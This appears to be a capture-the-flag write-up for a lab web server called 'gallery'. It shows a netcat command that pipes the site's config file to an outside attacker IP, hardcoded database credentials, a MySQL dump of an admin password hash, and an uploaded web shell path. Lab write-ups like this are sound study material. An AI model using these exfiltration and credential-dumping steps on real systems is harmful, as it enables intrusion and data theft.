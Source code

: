 On target server:

```bash
cat /var/www/html/gallery/initialize.php | netcat 10.6.18.190 1234
```

we can see the credentials for the user

```
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

connect to the mysql database using the credentials,

the following commands result in user information

```
mysql -u gallery_user -p
passw0rd321

show databases;

use gallery_db;

show tables;

select * from users;
```

```
+----+--------------+----------+----------+----------------------------------+--------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                         | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+--------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1732116120_phpbash.php | NULL       |    1 | 2021-01-20 14:02:37 | 2024-11-20 15:22:51 |
+----+--------------+----------+----------+----------------------------------+--------------------------------+------------+------+---------------------+---------------------+

```


interesting backup
```
╔══════════╣ Backup folders
drwx------ 2 root root 4096 May 20  2021 /etc/lvm/backup
drwxr-xr-x 3 root root 4096 Nov 20 15:21 /var/backups
total 52
-rw-r--r-- 1 root root 34789 Feb 12  2022 apt.extended_states.0
-rw-r--r-- 1 root root  3748 Aug 25  2021 apt.extended_states.1.gz
-rw-r--r-- 1 root root  3516 May 21  2021 apt.extended_states.2.gz
-rw-r--r-- 1 root root  3575 May 20  2021 apt.extended_states.3.gz
drwxr-xr-x 5 root root  4096 May 24  2021 mike_home_backup

```
